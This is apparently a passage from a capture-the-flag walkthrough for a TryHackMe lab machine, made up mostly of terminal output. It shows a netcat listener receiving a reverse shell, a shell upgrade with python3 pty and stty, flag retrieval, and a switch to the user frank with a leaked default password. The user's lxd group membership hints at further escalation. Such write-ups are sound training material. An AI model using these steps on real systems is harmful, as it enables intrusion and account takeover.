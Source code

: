 
<br>
<h2>www-data</h2>

```bash
:~/toc2# nc -nlvp 1234
...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@...:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
:~/toc2# stty raw -echo; fg
nc -nlvp 1234

www-data@...:/$ export TERM=xterm
www-data@...:/$ pwd
/
www-data@...:/$ cd home
www-data@...:/home$ ls
frank  ubuntu
www-data@...:/home$ cd frank
www-data@...:/home/frank$ ls
new_machine.txt  root_access  user.txt
www-data@...:/home/frank$ cat user.txt
thm{****************************}
www-data@...:/home/frank$ 
```

<br>
<p>2.1. Find and retrieve the user.txt flag<br>
<code>thm{****************************}</code></p>
<br>


```bash
www-data@...:/home/frank$ cat new_machine.txt
I'm gonna be switching computer after I get this web server setup done. The inventory team sent me a new Thinkpad, the password is "password". It's funny that the default password for all the work machines is something so simple...Hell I should probably change this one from it, ah well. I'm switching machines soon- it can wait. 
```

<br>
<h2>frank  .  Session 1</h2>

```bash
www-data@...:/home/frank/root_access$ su frank
Password: 
frank@...:~/root_access$ 
```

```bash
frank@...:~/root_access$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```
